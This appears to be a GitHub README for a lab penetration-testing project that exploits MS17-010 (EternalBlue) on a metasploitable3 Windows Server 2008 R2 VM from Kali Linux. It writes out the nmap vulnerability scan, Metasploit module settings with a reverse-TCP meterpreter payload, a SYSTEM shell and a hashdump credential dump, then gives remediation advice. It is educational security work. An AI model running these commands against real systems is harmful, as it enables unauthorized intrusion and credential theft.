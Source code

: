# 🛡️ Windows Server Penetration Testing – MS17-010 (EternalBlue)

A comprehensive penetration test targeting a Windows Server 2008 R2 system, revealing and exploiting the critical MS17-010 (EternalBlue) vulnerability. This project demonstrates real-world exploitation, post-exploitation, and remediation strategies—all performed within a controlled virtualized environment using two VMs: **metasploitable3_win** (target) and **Kali Linux** (attacker)[1][2][3][5].

---

## 🚀 Executive Summary

- **Target:** Windows Server 2008 R2 (`metasploitable3_win`, 192.168.37.135)
- **Attacker:** Kali Linux VM
- **Objective:** Identify and exploit security weaknesses in a lab setup
- **Environment:** All testing was conducted on virtual machines in the same isolated environment for safety and repeatability[2][3][5]
- **Result:** Gained full system control via MS17-010 (EternalBlue)  
- **Impact:** Demonstrated risk of network-wide compromise

---

## 🛠️ Tools & Techniques

- **Nmap** – Vulnerability scanning & service enumeration
- **Metasploit Framework** – Exploitation (EternalBlue)
- **Meterpreter** – Post-exploitation, privilege escalation, credential dumping
- **Windows CLI** – System enumeration and navigation

---

## 🖥️ Lab Environment Details

| VM Name               | OS / Role              | Purpose             |
|-----------------------|------------------------|---------------------|
| metasploitable3_win   | Windows Server 2008 R2 | Vulnerable Target   |
| Kali Linux            | Kali Linux             | Attacker Platform   |

- Both VMs were configured on the same virtual network, ensuring safe, repeatable, and isolated testing[2][3][5].

---

## 🔍 Methodology

1. **Reconnaissance & Scanning**
   - Identified open SMB port (445) and vulnerability using Nmap:
     ```
     nmap --script smb-vuln-ms17-010 -p 445 192.168.37.135
     ```
     ```
     PORT    STATE SERVICE
     445/tcp open  microsoft-ds
     | smb-vuln-ms17-010: 
     |   VULNERABLE:
     |   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
     |     State: VULNERABLE
     |     IDs:  CVE:CVE-2017-0143
     |     Risk factor: HIGH
     ```
   - The scan confirmed the target was running on VMware, ensuring the test was isolated and safe[2].

2. **Exploitation**
   - Used Metasploit's EternalBlue module from the Kali Linux VM:
     ```
     use exploit/windows/smb/ms17_010_eternalblue
     set RHOSTS 192.168.37.135
     set PAYLOAD windows/meterpreter/reverse_tcp
     set LHOST <attacker_ip>
     exploit
     ```
   - Achieved SYSTEM shell:
     ```
     meterpreter > shell
     Microsoft Windows [Version 6.1.7601]
     ```

3. **Post-Exploitation**
   - **System Enumeration:**
     ```
     systeminfo
     ```
     - OS: Windows Server 2008 R2 Standard (VMware Virtual Platform)[2]
     - Host Name: VAGRANT-2008R2
     - Domain: WORKGROUP

   - **Credential Dumping:**
     ```
     hashdump
     ```
     - Extracted password hashes for multiple users, including Administrator[2].

---

## 📊 Key Findings

- **Critical Vulnerability:** MS17-010 allowed unauthenticated remote code execution
- **Full Compromise:** SYSTEM-level access and credential extraction
- **Lateral Movement Potential:** Risk of network-wide breach

---

## 🛡️ Remediation Recommendations

- **Immediate:**
  - Apply patch KB4012212 to fix MS17-010
  - Disable SMBv1
- **Long-term:**
  - Enforce strong password policies
  - Implement network segmentation
  - Monitor SMB activity

---

## 💡 Impact & Business Risks

- **Severity:** CVSS 10.0 (Critical)
- **Risks:** Data theft, ransomware, regulatory non-compliance, operational downtime, reputational damage

---

## 📁 Project Artifacts

- [Penetration Test Documentation (docx)](./Documention.docx)
- [Procedure Walkthrough (docx)](./etblue.docx)

---

## 🏆 What I Learned

- Real-world Windows exploitation workflow in a safe virtual lab
- End-to-end penetration testing process
- Risk assessment and remediation planning
- Technical documentation for stakeholders

---

## 📬 Contact

**Email:** your.email@example.com  
**LinkedIn:** [Your LinkedIn](https://linkedin.com/in/yourprofile)

---

> _“All testing was performed in a controlled virtual environment using two VMs—metasploitable3_win (Windows Server 2008 R2) and Kali Linux—ensuring no impact to production systems and enabling safe, repeatable experimentation.”_


